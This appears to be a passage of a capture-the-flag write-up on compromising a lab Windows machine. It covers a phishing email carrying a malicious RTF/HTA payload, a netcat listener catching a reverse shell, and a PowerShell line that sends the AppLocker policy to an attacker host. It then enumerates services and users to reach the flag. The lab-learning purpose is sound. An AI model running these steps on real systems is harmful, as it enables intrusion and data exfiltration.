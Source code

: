 Then start the web server

> python -m SimpleHTTPServer 80

Do a netcat listener

> nc -nlvp 9001

Send the email within the webserver directory (Where the rtf file is located)

![57adda8cd2c98e8c38c41369621865a4.png](:/a0ab26b867034341871e37bfb8d458a1)

You should get a response on the web Server

![da9200ead64be6c175ec51877b64b94f.png](:/1e59f3941ffe4b5188f86232809f1358)

HTA file did not execute, because there were no quotes when generating the RTF file

![9ca415b463c45b815d31b4164ae30fcd.png](:/f994bf31080443fcac7103285c736313)

No we have a shell

## Check AppLocker Policies

> $output = Get-ApplockerPolicy -Effective -xml; Invoke-RestMethod -Method PUT -Body $outfile -Uri http://IP/App.xml

![30bc02a454a3b094b0c304daf3120303.png](:/ad58aa1cf2b040179140744b6eb1dde7)

Opening the file in Firefox will give a weird XML error

Copied the whole text out of the AppLocker Policy, and create the file on your kali instead

![49555d94061b1d2e009b6544eb73c40e.png](:/ec4547e581f243c5874bebec7f964c87)

DLLs are not configured; You can always use DLL

Scripts, you can find the exceptions

![36f897eeb17edb241d0c259df278bc59.png](:/1818706e094146d59266d5fc69c75e93)

## Check What Services are running

> Get-Service | where {$_.Status -eq "Running" }

![cec7c37445e3e544e14f44b252be8b2b.png](:/56ff158503444807b10a72cc75796f70)

Can confirm that ssh is running on Windows

## Check on users Directory

![a84a381e54668812b89c279689ce2bac.png](:/e7b46399bbbc4c768567eff735a8281a)

Go into nico and Desktop, and we can find the user.txt file
